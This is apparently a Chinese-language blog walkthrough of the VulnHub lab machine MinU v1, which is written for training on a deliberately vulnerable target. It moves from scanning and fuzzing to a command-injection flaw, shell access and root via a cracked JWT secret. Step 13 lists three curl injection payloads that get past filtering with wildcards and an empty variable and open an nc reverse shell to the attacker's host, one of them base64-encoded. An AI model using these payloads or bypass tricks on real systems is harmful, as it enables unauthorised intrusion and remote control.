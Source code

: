 ```yaml
---
layout: post
title: Vulnhub-MinUV1-writeup
description: >
  这是vulnhub上靶机MinUV1的writeup
tags: [技术]
author: DshSec
accent_image:          /assets/img/sidebar-bg.jpg
accent_color:          '#4fb1ba'
---
```

#### 靶机相关链接
  + 靶机介绍：["靶机介绍主页"](https://www.vulnhub.com/entry/minu-1,235/)
  + 下载链接1:["靶机下载(Goole云盘)"](https://drive.google.com/open?id=1n_zpZ4M8wpEl5U_o5455MAiuwhCzStlh)
  + 下载链接2：["靶机下载(镜像)"](https://download.vulnhub.com/minu/MinUv1.ova.7z)
  + 下载链接3：["靶机下载(Torrent)"](https://download.vulnhub.com/minu/MinUv1.ova.7z.torrent)
  + 下载靶机后，通过Virtualbox导入虚拟机即可使用


#### 测试过程
1. 下载靶机后，使用Virtualbox导入后开机直接获得IP，省掉了主机存活发现的环节
  ![Full-width image](/assets/img/docs/MlnUV1/1.png)
2. 拿到后直接使用nmap进行扫描看开起来那些服务，扫描仅发现了80端口,(一般先进行常规端口扫描，全端口在有必要的情况下可在对web或者其他常见服务进行测试时进行扫描，可有效节省时间)
    ![Full-width image](/assets/img/docs/MlnUV1/2.png)
3. 访问80端口发现是Apache默认页面，大致查看过后并无其他发现，用dirb或者wfuzz(wfuzz的使用教程有一个老哥介绍很清楚可以去看下一下，['此处为传送门'](https://www.freebuf.com/author/m0nst3r)进行一下目录扫描
    ![Full-width image](/assets/img/docs/MlnUV1/3.png)
    ![Full-width image](/assets/img/docs/MlnUV1/4.png)
4. 两者均发现了test.php,按照惯例进行访问并哪里不会点哪里；点的时候要注意地址栏的变化；惯例进行源码的查看，发现这个链接有存在文件包含漏洞的嫌疑
    ![Full-width image](/assets/img/docs/MlnUV1/5.png)
    ![Full-width image](/assets/img/docs/MlnUV1/6.png)
5. 依旧用wfuzz试一下，通过wfuzz可以省去很多手工上的繁琐，偷偷懒
    ![Full-width image](/assets/img/docs/MlnUV1/7.png)
6. 通过wfuzz的结果可以看到存在大量的字符数为1986的页面，尝试访问一个发现非常正常，于是可以通过--hh将字符数为1986的排除掉，这样结果更加精简了
    ![Full-width image](/assets/img/docs/MlnUV1/8.png)
    ![Full-width image](/assets/img/docs/MlnUV1/9.png)
    ![Full-width image](/assets/img/docs/MlnUV1/10.png)
7. 通过对剩下几个payload进行访问，发现并非文件包含漏洞，而是命令执行漏洞
    ![Full-width image](/assets/img/docs/MlnUV1/11.png)
    ![Full-width image](/assets/img/docs/MlnUV1/12.png)
8. 经过尝试发现很多命令执行不了，可以判断该处漏洞应该存在过滤手段
    ![Full-width image](/assets/img/docs/MlnUV1/13.png)
9. 在测试过程中发现rev命令是可用的，rev命令可以实现字符的反序输出，可以通过rev来读源码    
>
  **NOTE**:rev命令 将文件中的每行内容以字符为单位反序输出，即第一个字符最后输出，最后一个字符最先输出，依次类推
    ![Full-width image](/assets/img/docs/MlnUV1/14.png)

10. 尝试通过rev命令来读取test.php的内容
    ![Full-width image](/assets/img/docs/MlnUV1/15.png)
11. 由于反序输出不便阅读，可以在terminal中通过管道符进行再次反序然后即可得到正序的文件内容
    ![Full-width image](/assets/img/docs/MlnUV1/16.png)
12. 可以看到test.php中执行的命令是shell_exec('cat'.GET['file'])，获取file参数然后cat出来，既然知道文件内容了就可以进行payload的构造，在payload的构造中有很多种方法，但是需要不断的尝试有哪些限制字符。对参数进行fuzz一下看哪些是可用的(此处需要自己构造字典，想好要执行那些命令，然后分别用不同的方式表示出来形成字典再fuzz)
    ![Full-width image](/assets/img/docs/MlnUV1/17.png)
13. 根据fuzz的结果得出部分可用字符，通过这些字符可以组合payload，此处列举三个：(其中20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK为nc -e /bin/sh 192.168.145.1 4444的base64编码)，可自行发散思路测试多种命令，组合出多种payload
```shellcode
curl -s "http://192.168.145.5/test.php?file=%26/bin$u/echo$u%20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK|/usr$u/bin$u/base64$u%20-d|/bin$u/sh$u"
curl -s 'http://192.168.145.5/test.php?file=%26/bin/ech?%20bmMgLWUgL2Jpbi9zaCAxOTIuMTY4LjE0NS4xIDQ0NDQgICAK|/u?r/b?n/b?se64%20-d|/b?n/sh'
curl -s 'http://192.168.145.5/test.php?file=%26/b?n/nc$u%20-e%20/b?n/sh$u%20192.168.145.1%204444'
```
  此处主要利用到了两个知识点：1是linux下所有皆文件，因此各种可执行程序都是在可找到的文件，而在找文件的过程中是可以利用通配符的，可以利用该特性对过滤进行绕过，另一点就是使用空变量$u，linux中是可以存在空变量的，直接被系统视为空字符串，空变量不会对输出造成影响，可以借此来绕过基于正则表达式的过滤器和模式匹配此处参见['secist'](https://www.freebuf.com/author/secist)大佬['绕过CloudFlare WAF和ModSecurity OWASP CRS3核心规则集的技巧介绍'](https://www.freebuf.com/articles/web/184414.html)的文章

14. 现在可以getshell了，先监听端口4444(（由于我的网络是靶机为仅host模式，而kali为nat模式通过将物理机的4444网卡映射到了kali上，所以此处看到的是来自10.0.2.2的连接，这不是重点）)
    ![Full-width image](/assets/img/docs/MlnUV1/18.png)
15. 此时拿到的只是shell,并非tty:使用SHELL=/bin/bash script -q /dev/null可以将shell提升成tty,找一下有没有可以直接拿来提权的程序，可惜在我的知识中这些都好像没有，泪奔.....
    ![Full-width image](/assets/img/docs/MlnUV1/19.png)
16. 看一下Linux内核版本，看是否有可利用的漏洞，找到可用的然后gcc编译一下
    ![Full-width image](/assets/img/docs/MlnUV1/20.png)    
    ![Full-width image](/assets/img/docs/MlnUV1/21.png)
    ![Full-width image](/assets/img/docs/MlnUV1/22.png)  
17. EXP准备就绪后开始准备上传，先在本机用python搭个简易的web服务器，然后找一个可写文件夹，尝试下载下来
    ![Full-width image](/assets/img/docs/MlnUV1/23.png)
    ![Full-width image](/assets/img/docs/MlnUV1/24.png)
    ![Full-width image](/assets/img/docs/MlnUV1/25.png)    
18. 很尴尬的是发现下载下来大小为0，查看一下磁盘发现磁盘满了。不知道这是作者有意的还是我的环境有问题.....所以通过这种方式提权看来要拉闸了
    ![Full-width image](/assets/img/docs/MlnUV1/26.png)
19. 在系统瞎逛逛，发现了home目录下bob的文件夹有隐藏文件(一般home目录下的要重点关注)，查看一下发现存在一个__pw__的文件，里面写的东西我也看不懂，直觉告诉我这很重要。于是找了国外大佬的文章看解析。发现是['Json web tokens'](http://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html)
    ![Full-width image](/assets/img/docs/MlnUV1/27.png)
20. 尝试使用['jwtrack'](https://github.com/brendan-rius/c-jwt-cracker)进行破解,破解成功。得到密钥是mlnV1
    ![Full-width image](/assets/img/docs/MlnUV1/28.png)
21. 尝试登陆，发现登陆root成功，并且在root文件夹下发现flag文件，cat一下
    ![Full-width image](/assets/img/docs/MlnUV1/29.png)
>
**附上两位大佬解析的地址**:
+ https://medium.com/@honze_net/vulnhub-minu-1-write-up-8032fdda5939
+ https://hackso.me/minu-1-walkthrough/
